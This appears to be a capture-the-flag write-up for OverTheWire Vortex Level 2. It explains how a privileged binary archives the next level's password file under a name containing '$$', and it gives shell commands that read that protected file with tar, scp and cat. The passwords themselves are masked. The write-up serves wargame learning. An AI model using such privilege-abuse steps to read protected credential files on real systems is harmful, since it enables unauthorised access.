 ```yaml
---
title:  "[CTF] OverTheWire Vortex Level 2"
---
```


![Logo](/assets/images/vortex2.png)

## Context
The binary from [level 2](http://overthewire.org/wargames/vortex/vortex2.html) creates a _special file_, one whose name contains _**\$\$**_: _ownership.\$\$.tar_. As detailed in the [bash manual](https://www.gnu.org/software/bash/manual/html_node/Special-Parameters.html#Special-Parameters), the $ variable:
> Expands to the process ID of the shell. In a () subshell, it expands to the process ID of the invoking shell, not the subshell.

This binary file has permissions to read the password file from the next level, so what we have to do is archive the password file, and then read it, taking into account the special file name.

First, to create the archive:
```bash
vortex2@melissa:/etc/vortex_pass$ /vortex/vortex2 vortex3 vortex3 vortex3
vortex2@melissa:/etc/vortex_pass$ ls -alh '/tmp/ownership.$$.tar'
-rw-r--r-- 1 vortex3 vortex2 10K 2012-09-06 23:19 /tmp/ownership.$$.tar
```

File created. Now to untar and read the content: 

### Method 1

We cannot untar it there, so the **-O** option (output to _`STDOUT`_) is very useful :
```bash
vortex2@melissa:/etc/vortex_pass$ tar xf '/tmp/ownership.$$.tar' -O
*****
```

### Method 2

We could copy it locally with _`scp`_ and untar it. I had a little problem with the file name passed forward by scp, which can be seen and adapted with verbose mode, then check the transmitted file name and adjust it:
```bash
scp -v vortex2@vortex.labs.overthewire.org:'test$$' .
[..]
debug1: Sending command: scp -v -f test$$
scp: test415: No such file or directory
```

We see that **$$** is transmitted,  and will be interpreted, so it should be correctly escaped. Copy archive locally:
```bash
# scp vortex2@vortex.labs.overthewire.org:'/tmp/ownership.\$\$.tar' .
```

### Method 3
The _`tar`_ command from the binary does not use compression, so the content of the archive can be viewed: 
```bash
vortex2@melissa:/etc/vortex_pass$ cat '/tmp/ownership.$$.tar'
[..]
*****
```
